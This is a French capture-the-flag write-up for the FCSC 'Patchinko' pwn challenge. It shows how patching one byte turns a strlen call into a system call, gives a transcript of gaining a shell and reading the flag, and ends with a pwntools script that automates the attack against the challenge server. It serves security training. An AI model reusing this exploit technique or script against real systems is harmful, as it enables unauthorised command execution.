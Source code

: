 # Patchinko - PWN - 200

> Venez tester la nouvelle version de machine de jeu Patchinko ! Les chances de victoire étant proches de zéro, nous aidons les joueurs. 
> Prouvez qu'il est possible de compromettre le système pour lire le fichier flag.

## Fonctionnement du service

En se connectant au service donné, il nous est gracieusement proposé de patcher un octet du binaire **avant son lancement**.

Nous devons donc tirer profit de ce cadeau du ciel en modifiant un octet nous permettant de lire le flag!

## Analyse du binaire

Le binaire n'est pas très compliqué, il nous demande dans un premier temps notre nom, puis génère 1 nombre aléatoire qu'on doit ensuite deviner ...

On remarque également la présence de **system** qui est suspecte. Elle est utilisée dans le binaire pour afficher un simple message.

Il faudrait donc remplacer le call d'une fonction prenant en premier paramètre une chaîne que l'on contrôle par system, ce qui nous permettra d'éxecuter une commande sur le service !

Prenons par exemple strlen, qui est un parfait candidat pour ce que nous recherchons !

## Altération du flux d'exécution

Avec objdump, nous récupérons les deux instructions de call vers system et strlen:

```
400853:	e8 78 fe ff ff       	call   4006d0 <system@plt>
400888:	e8 33 fe ff ff       	call   4006c0 <strlen@plt>
```

Un seul octet varie entre les deux !
Nous devons donc modifier l'octet à 0x400889 par la valeur 0x78, ce qui appelera system à la place de strlen lors de l'exécution !

Cependant, dans le fichier, il n'y a pas l'adresse de base, l'offset réel est donc 0x889.

Mais pas si vite ... Le call est relatif et se base sur la valeur de RIP, nous devons donc déduire de cette valeur la différence entre les deux instructions, ce qui nous donne: ```0x78 - (0x400888 - 400853) = 0x43.```

## Récupération du flag

Il nous suffit donc d'indiquer au service de modifier l'octet à l'offset 0x889 par 0x43, puis de taper /bin/sh pour avoir un shell !
Seulement, dans le binaire la taille de l'entrée est limitée à 4 caractères, nous ne pouvons pas rentrer /bin/sh ...

Mais system se base sur le PATH, nous pouvons donc raccourcir notre /bin/sh à un simple sh !

```
At which position do you want to modify (base 16)?
>>> 0x889
Which byte value do you want to write there (base 16)?
>>> 0x43
== Let's go!
Hello! Welcome to Patchinko Gambling Machine.
Is this your first time here? [y/n]
>>> sh
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
cat flag
FCSC{b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc4475102998}
``` 

Boom, on a le flag !

FLAG: FCSC{b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc4475102998}

Niveau automatisation c'est pas ouf, on doit quand même écrire des trucs pour obtenir un shell ...
Un petit script ça ferait pas de mal !

```py
#!/usr/bin/python

from pwn import *

where = 0x0889
what = 0x43

r = remote('challenges1.france-cybersecurity-challenge.fr', 4009)

r.recv()

r.sendline(hex(where))
r.recv()

r.sendline(hex(what))
r.recv()

r.sendline("sh")
r.interactive()
```